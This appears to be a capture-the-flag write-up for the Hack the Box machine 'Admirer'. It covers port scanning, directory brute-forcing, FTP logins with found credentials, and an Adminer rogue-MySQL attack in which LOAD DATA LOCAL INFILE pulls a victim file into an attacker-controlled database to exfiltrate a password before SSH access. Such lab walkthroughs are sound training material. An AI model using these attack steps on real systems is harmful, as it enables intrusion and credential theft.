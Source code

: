 # Hack the Box - Admirer

```CSS
Machine IP: 10.10.10.187 - Linux
```

# Reconaissance
## NMAP (Surface)
```CSS
▶ nmap -Pn -sS -p- 10.10.10.187 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.187
Host is up (0.100s latency).
Not shown: 65532 closed tcp ports (reset)

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 75.35 seconds
```

## NMAP (Deep)
```CSS
▶ nmap -sC -sV -p 21,22,80 10.10.10.187 -oN nmap.deep

Nmap scan report for 10.10.10.187
Host is up (0.088s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a71e92163699dcbdd84021a2397e1b9 (RSA)
|   256 c595b6214d46a425557a873e19a8e702 (ECDSA)
|_  256 d02dddd05c42f87b315abe57c4a9a756 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-title: Admirer
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.59 seconds
```

## Application (Port 80)
![image](https://user-images.githubusercontent.com/83878909/229423143-85c36971-4509-41d0-8710-63c5cf8efe6e.png)

## Brute-Force (Common Directories and Files)
```
▶ gobuster dir --url http://10.10.10.187 --wordlist /seclists/Discovery/Web-Content/common.txt --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/229427047-c09451d1-a6ed-4ccd-89aa-bae599dea65b.png)
  - robots.txt
![image](https://user-images.githubusercontent.com/83878909/229427379-501aadd4-818e-4d55-97d8-daf7fec60a39.png)

```CSS
▶ gobuster dir --url http://10.10.10.187/admin-dir --wordlist /seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --extensions php,txt --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/229438336-3f85f7f9-f2b0-4f1f-b238-97f066754b5f.png)
  - contacts.txt
  - credentials.txt
![image](https://user-images.githubusercontent.com/83878909/229438499-9d4192a2-b214-4cdd-b026-8abcf9009cb0.png)
![image](https://user-images.githubusercontent.com/83878909/229438595-3c5b4ddc-cd03-46be-b12a-5a6d84e6b361.png)

---

## FTP Login
  - FTP Login: `ftpuser:%n?4Wz}R$tTF7`
![image](https://user-images.githubusercontent.com/83878909/229441021-6974e5c6-1dd5-4819-97ed-e76d136aab22.png)
  - Download Files: `dump.sql` and `html.tar.gz`.
![image](https://user-images.githubusercontent.com/83878909/229441387-3b270388-ef2e-425b-b68a-1e0b7037d075.png)
  - `dump.sql` : No useful information.
  - `html.tar.gz` : `▶ tar -xvzf html.tar.gz`
![image](https://user-images.githubusercontent.com/83878909/229442818-fc7ff4da-a787-4434-9e9e-b9a0b3ee8cf9.png)
  - `index.php` : Database credentials found `waldo:]F7jLHw:*G>UPrTo}~A"d6b`
![image](https://user-images.githubusercontent.com/83878909/229444624-5870fc15-d309-4d7c-a85a-8c0a5511660d.png)
  - `/utility-scripts/db_admin.php`: Database credentials found `waldo:Wh3r3_1s_w4ld0?`
![image](https://user-images.githubusercontent.com/83878909/229447920-b34a8efb-769a-42de-a16f-a6e808de9bc4.png)
  - `w4ld0s_s3cr3t_d1r/credentials.txt`
![image](https://user-images.githubusercontent.com/83878909/229448581-7a114624-eb66-4323-bdab-bab29630636b.png)

---

## Brute-Force
```
▶ gobuster dir --url http://10.10.10.187/utility-scripts/ --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/combined_words.txt --extensions php,txt  --threads 50
```
![image](https://user-images.githubusercontent.com/83878909/229453408-bae74a9a-7686-4194-a828-c8bf131204e1.png)

---

## Application
  - Adminer
![image](https://user-images.githubusercontent.com/83878909/229453875-f4a1d735-6a09-4bb5-a360-44caae6481ce.png)
  - About [Adminer vulnerability](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool).

---

### Create MariaDB Database and User
  1. Start MariaDB : `systemctl start mariadb`
  2. Login to MariaDB : `mysql -u root -p` (The password is root)
  3. Create database : `CREATE DATABASE PwnMe; USE PwnMe; CREATE TABLE pwned (name VARCHAR(2000));`
  4. Create User : `CREATE USER 'xoxo'@'10.10.10.187' IDENTIFIED BY 'passwd';` ##Specify the Victim IP address
  5. Grant Privileges : `GRANT ALL PRIVILEGES ON PwnMe.* TO 'xoxo'@'10.10.10.187';` ##Specify the Victim IP address
  6. Refersh Privileges : `FLUSH PRIVILEGES;`

## Firewall Exception
- Add a Firewall Exception (if enabled): ufw allow from 10.10.14.34 to any port 3306

## Configure MariaDB to bind to attacker Server/VPN IP address
1. Change Bind address in : `/etc/mysql/mariadb.conf.d/50-server.cnf`
2. Bind Address : Attacker Server/VPN IP `bind-address = 10.10.14.34`
![image](https://user-images.githubusercontent.com/83878909/229495035-73e3bf04-05d5-4660-8b6e-a08c37946d42.png)

## Restart and Check Service
- Restart MariaDB server and check that the service is listening on the correct port
```CSS
▶ systemctl restart mariadb
▶ netstat -pano | less
```
![image](https://user-images.githubusercontent.com/83878909/229494627-683d637e-0a9f-4e7e-ba61-25471d2f19e3.png)

---

## Exploit
  - Login using the created database and credentials.
![image](https://user-images.githubusercontent.com/83878909/229499456-19111d24-a091-4402-be57-f7566ffca780.png)
![image](https://user-images.githubusercontent.com/83878909/229498960-f29142fc-f648-45c1-83ae-cece1cf58fd6.png)

### Exfiltrate Data
  - SQL Command: `LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE PwnMe.pwned FIELDS TERMINATED BY "\n"`
![image](https://user-images.githubusercontent.com/83878909/229501451-a5e334eb-59c5-4484-aa72-266bce45efce.png)
  - Read from Local Database: `SELECT * FROM pwned;` ##Table Name
  - Credentials Found: `waldo:&<h5b~yK3F#{PaPB&dA}{H>`
![image](https://user-images.githubusercontent.com/83878909/229502059-1cc7ece1-2c10-4c1a-bb33-23a69e796c10.png)

## SSH Login
  - SSH: `ssh waldo@10.10.10.187`
![image](https://user-images.githubusercontent.com/83878909/229502832-cd439abd-e8bd-4a93-8613-2c2696b97cc8.png)

---

## Privilege Escalation
- Check for commands user `waldo` can run with `sudo` privileges.
![image](https://user-images.githubusercontent.com/83878909/229505608-c3ef4196-8607-4701-ae8c-ebdc738e01f7.png)

